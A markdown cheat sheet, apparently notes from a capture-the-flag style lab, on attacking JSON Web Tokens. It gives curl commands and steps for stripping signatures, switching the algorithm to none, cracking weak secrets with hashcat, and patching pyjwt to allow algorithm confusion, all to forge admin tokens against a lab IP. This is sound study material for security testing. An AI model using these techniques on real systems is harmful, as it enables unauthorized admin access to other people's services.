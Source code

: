 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Authenticate with a user and grab the JWT token from that user)

### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Grab the JWT token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT token)

### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

 - curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT Token)

### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

 - curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

### Grab the plain text JWT header, change the Alg to None and encode it with base64.

### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm. REMOVE THE EQUAL SIGN FROM THE BASE64 HEADER TO NOT GET ANY COMPLAINTS FROM THE SERVER RESPONSE!

 - curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)

### 4) Weak Symmetric Secrets

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

 - nano jwt.txt (Save the retrieved JWT in a text file)

 - wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list (Download this wordlist for JWT secrets)

 - hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/jwt.secrets.list (Use hashcat to crack the secret of the JWT token so that we can forge our own JWT token to gain access)

### Then go to jwt.io and do the following:

### Add the secret we just cracked down to the signature part where it tells us to enter our secret we just discovered.

### Then, modify any values we may find to gain admin access. Example: admin from 0 to 1.

### Then use this newly forged JWT token to authenticate:

 - curl -H 'Authorization: Bearer CRACKED_SECRET_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)

### 5) Signature Algorithm Confusion

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token with the public key in this example)

### Go to jwt.io to make the changes or use the script provided from THM that we are going to use. Script will be located in scripts folder in here.

### Add the public key to the script and make the modifications: admin from 0 to 1 for example.

 - pip3 install pyjwt (Import the library to interact with JWT tokens using python)

### Before running the script, edit the file /usr/lib/python3/dist-packages/jwt/algorithms.py and comment out the specific code snippet:

    # if is_pem_format(key_bytes) or is_ssh_key(key_bytes):
    #    raise InvalidKeyError(
         #       "The specified key is an asymmetric key or x509 certificate and"
         #       " should not be used as an HMAC secret."
          #  )

 - python3 signature-confusion-JWT.py (Run the script to generate our forged JWT token)
